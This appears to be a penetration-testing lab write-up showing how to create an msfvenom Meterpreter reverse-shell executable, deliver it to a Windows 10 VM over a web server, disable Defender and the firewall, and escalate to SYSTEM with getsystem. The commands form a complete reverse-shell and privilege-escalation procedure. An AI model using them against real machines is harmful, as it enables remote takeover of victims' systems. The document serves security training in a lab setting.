# Escalate Privileges To SYSTEM Using Meterpreter’s Command GETSYSTEM
Gaining SYSTEM privileges on a Windows machine is essential for penetration testers and red teamers to perform advanced post-exploitation tasks like credential dumping and accessing sensitive data. Meterpreter's GETSYSTEM command is a powerful tool for escalating privileges to SYSTEM-level access.

## Preparation
- Target machine: Windows 10 VM with local administrator privileges
- Attacker machine: Kali Linux VM with Metasploit installed

## Tasks
- Use MSFVenom to generate a Meterpreter reverse shell payload. Ensure you set the payload to be compatible with the target machine's architecture
- Transfer the payload to the target machine
- Create a Meterpreter listener
- On the target machine, right-click the payload file and select "Run as administrator" to start the reverse shell with elevated privileges
- Within the Meterpreter session, use the `getsystem` command to escalate your privileges to SYSTEM level
- Execute either the `whoami` or `getuid` command

## Practical Approach 
1. Get the IPv4 addresses of both VMs and ping each other to ensure network connectivity
2. In Kali Linux, create the reverse shell executable for windows using the following sample command
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Start the Metasploit framework using `msfconsole`
4. Set the payload using `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Set the LHOST to the Kali Linux's IP address using `set LHOST <Kali_Linux_IP_address>`
6. Set the LPORT (listening port) to 4444 using `set LPORT 4444`
7. In a separate second terminal, send the file over to the target machine either using a web server or a shared folder in the VM. In this task, a web server is used
8. First, navigate to the Desktop directory in the terminal, and copy the reverse shell executable from the desktop to the web server directory at /var/www/html using the command `sudo cp reverseshell.exe /var/www/html`
9. Before starting the Apache web server, verify its status using `service apache2 status`. If it is currently disabled, run the command `service apache2 start` to activate the web server
10. Disable beforehand the Microsoft Firewall and Protection to prevent auto-deletion of the reverse shell executable once it is downloaded
11. In Windows 10 VM, open a web browser and enter the Kali Linux's IP address with the name of the executable as the following: `192.168.1.14/reverseshell.exe`
12. In Kali Linux VM, since the listening port was configured to port 4444, run the commmand `sudo ufw allow 4444/tcp` in the second terminal to allow incoming TCP traffic
13. In the Kali Linux terminal used for the Metasploit framework, run exploit using `exploit`
14. Back to Windows 10 VM, run the downloaded reverseshell.exe as administrator. This should open a Meterpreter session in Kali Linux
15. In Kali Linux, use the `getsystem` command to escalate the privileges to SYSTEM level
16. Enter `shell` and `whoami` to get `nt authority\system`

<br/>
Sample screenshot of a successful Meterpreter session is shown below: 

![image](https://github.com/user-attachments/assets/e61bc49c-66f1-4a0a-8025-539e6ed14d7d)

